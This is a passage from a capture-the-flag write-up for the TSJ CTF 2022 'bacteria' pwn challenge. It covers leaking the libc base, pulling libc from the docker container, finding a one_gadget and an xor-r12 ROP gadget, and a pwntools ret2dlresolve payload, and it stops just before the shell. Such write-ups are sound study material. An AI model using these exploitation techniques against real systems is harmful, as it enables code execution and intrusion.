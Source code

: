 Running script and we get this output:

![get_libc_base.png](/static/images/tsjctf-2022/bacteria/get_libc_base.png)

Check with libc in GDB and we get the same address:

![get_libc_base_GDB.png](/static/images/tsjctf-2022/bacteria/get_libc_base_GDB.png)

What a long way! Let's keep going cause we are very close to flag.

### Stage 6. Get shell

Now we will get the libc from container to our host and then find one gadget from it:

```bash
$ docker ps
CONTAINER ID   IMAGE               COMMAND                  CREATED        STATUS       PORTS                    NAMES
3ac3689e6140   bacteria_bacteria   "/usr/sbin/xinetd -d…"   12 hours ago   Up 3 hours   0.0.0.0:9487->9487/tcp   bacteria_bacteria_1

$ # docker cp <CONTAINER ID>:<path/of/container> <path/of/host/machine>
$ docker cp 3ac3689e6140:/usr/lib/x86_64-linux-gnu/libc-2.31.so .
```

Using `one_gadget` and we have the following gadget:

![one_gadget.png](/static/images/tsjctf-2022/bacteria/one_gadget.png)

We will use the first one which has constraints are r12 and r15 have to be null. Examine the register and we can see that r15 is null already, all we need now is r12 have to be null. Everything is easy when we have libc. Using `ROPgadget` and we can get this:

```bash
$ ROPgadget --binary libc-2.31.so --ropchain | grep xor | grep r12 | grep ret
...
...
0x00000000000d31f0 : xor r12d, r12d ; mov rax, r12 ; pop r12 ; ret
```

We will use this to clear the r12. I use xor because we don't need to add those `p64(0)` then pop in a limited space like this situation. Before we continue, let choose any address for rbp in the write of ret2dlresolve so that it will jump to there after the leak. I will choose the rw_section (because now we don't need stack more) so the code for ret2dlresolve will look like this:

```python
# Conduct ret2dlresolve
dlresolver = 0x401000
payload = p64(rw_section)           # Fake rbp, choose random writable address
payload += p64(dlresolver)          # Dlresolver
payload += p64(reloc_arg)           # Fake reloc_arg
payload += p64(mov_rsi_rbp_read)    # Return address
p.send(payload)
```

And now, after the leak it will get input from us again. Just pass that xor 12 and one gadget, we created the shell:
